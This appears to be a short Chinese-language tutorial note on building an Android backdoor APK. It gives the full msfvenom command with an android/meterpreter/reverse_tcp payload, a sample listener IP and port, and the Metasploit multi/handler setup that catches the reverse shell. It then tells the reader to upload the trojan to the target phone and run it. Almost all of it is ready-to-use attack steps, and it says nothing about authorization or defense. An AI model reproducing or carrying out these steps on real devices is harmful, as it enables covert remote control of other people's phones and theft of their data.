 # 一、环境准备

1. MSF-Metasploit Framework
2. 一台安装手机或者模拟器

# 二、木马生成

1. 生成一个APK后门
2. msfvenom -p android/meterpreter/reverse_tcp LHOST={监控IP} LPORT={监控端口} R>k.apk。

msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.110.38  LPORT=4567 R>k.apk

# 三、配置监控

1. 启动msf   终端内输入：msfconsole 启动msf![1643003592876](21 通过木马反弹shell（Android）.assets/1643003592876.png)

2. 载入监控模块  msf中输入：  use exploit/multi/handler

3. 载入payload MSF终端中输入： set payload android/meterpreter/reverse_tcp

   ![1643003612323](21 通过木马反弹shell（Android）.assets/1643003612323.png)

4. 配置payload  MSF终端中输入：show options

5. 配置监控IP MSF中输入：set lhost  <监控的IP>

6. 配置监控端口  MSF中输入：set lporr  <监控的端口>

7. 执行监控  msf终端中输入： run![1643003633911](21 通过木马反弹shell（Android）.assets/1643003633911.png)

# 四、攻击利用

1. 将木马上传到靶机
2. 在靶机上执行木马
3. 完成攻击利用![1643003654523](21 通过木马反弹shell（Android）.assets/1643003654523.png)